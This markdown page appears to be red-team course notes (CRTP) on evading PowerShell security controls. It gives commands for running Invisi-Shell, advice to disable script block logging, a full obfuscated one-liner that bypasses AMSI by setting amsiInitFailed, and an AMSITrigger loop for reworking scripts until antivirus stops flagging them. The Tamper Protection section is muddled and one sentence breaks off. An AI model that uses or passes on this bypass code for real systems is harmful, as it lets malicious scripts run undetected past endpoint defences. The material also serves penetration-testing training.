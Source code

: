 ```yaml
---
description: >-
  Discover the intricacies of CRTP PowerShell Detections in our in-depth
  article. Learn about its importance, applications, and methodologies for
  effective cybersecurity management.
cover: ../.gitbook/assets/RFS (2).png
coverY: 0
---
```


# 😅 PowerShell Detections

```
https://github.com/OmerYa/Invisi-Shell
```

{% hint style="warning" %}
```
Contact me on LinkedIn : https://cli-ck.me/rfs
```
{% endhint %}

### Using Invisi Shell

With admin privileges:

```
RunWithPathAsAdmin.bat
```

With non admin privileges:

```
RunWithRegistryNonAdmin.bat
```

### System-Wide Transcription

#### Script Block Logging

Disable script block logging to prevent PowerShell from recording potentially sensitive scripts as they are executed. This can be done through group policy settings or registry modifications.

### AntiMalaware Scan Interface - AMSI

The provided script snippet is designed to bypass AMSI, which could allow malicious scripts to execute without being scanned and potentially detected by AMSI. Users should execute this with extreme caution, as it lowers your system's defenses against malware.

{% code overflow="wrap" %}
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}

### Constrained Language Mode - CLM

To work around CLM:

1. Use AMSITrigger to identify which parts of your script are detected by AMSI.
2. Modify these parts and test again with AMSITrigger.
3. Continue this process until your script is no longer detected by AMSI.

The steps to avoid signature-based detection are pretty simple:&#x20;

1\) Scan using AMSITrigger&#x20;

2\) Modify the detected code snippet&#x20;

3\) Rescan using AMSITrigger&#x20;

4\) Repeat the steps 2 & 3 till we get a result as “AMSI\_RESULT\_NOT\_DETECTED” or “

### Tamper Protection

Tamper Protection is a feature that prevents unauthorized changes to key security features, including disabling script block logging and system-wide transcription settings. To bypass Tamper Protection:

1. Carefully modify security settings with appropriate administrative credentials.
2. Employ sophisticated methods to alter or add registry keys related to Tamper Protection.
3. Monitor changes and revert any suspicious modifications by unauthorized processes.
4. Ensure continuous validation of the integrity and authenticity of security-related configurations.

Please note, that bypassing Tamper Protection can make your system vulnerable to attacks and should only be done by experienced individuals or for educational purposes in a controlled environment.

#### Testing with AMSITrigger:

To effectively test your changes without triggering the AMSI:

1. Run `AMSITrigger` to test the initial script or command.
2. Based on the feedback, modify the flagged code segments to avoid AMSI detection.
3. Re-run `AMSITrigger` to verify that the changes are sufficient.
4. If detection still occurs, repeat the modification process until an undetected state is achieved.

#### Final Notes

Always ensure that you have proper authorization before attempting to adjust or bypass security features. Unauthorized tampering with security settings is illegal and unethical and could lead to severe consequences.

